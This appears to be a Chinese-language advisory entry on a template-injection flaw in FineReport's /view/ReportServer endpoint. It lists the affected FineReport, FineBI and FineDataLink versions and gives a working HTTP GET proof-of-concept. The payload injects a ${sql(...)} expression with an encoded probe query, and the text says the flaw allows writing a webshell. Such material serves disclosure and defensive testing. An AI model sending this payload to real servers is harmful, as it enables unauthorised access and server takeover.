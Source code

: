### **漏洞描述：**

帆软v10,v11存在/view/ReportServer接口存在模版注入漏洞，攻击者可以利用该漏洞执行任意SQL写入Webshell，从而获取服务器权限。

### **影响版本：**

JAR包时间在 2024-07-23 之前的FineReport11.*、10.*系列

JAR包时间在 2024-07-24 之前的、运维平台或Tomcat部署包部署的FineBI全版本

JAR包时间在 2024-07-24 之前的FineDataLink全版本

### **Payload：**

```
GET /webroot/decision/view/ReportServer?test=s&n=${sql('FRDemo',DECODE('%53%45%4C%45%43%54%20%27%71%79%67%31%32%33%34%35%36%27%3B'),1,1)} HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:127.0) Gecko/20100101 Firefox/127.0
```

---
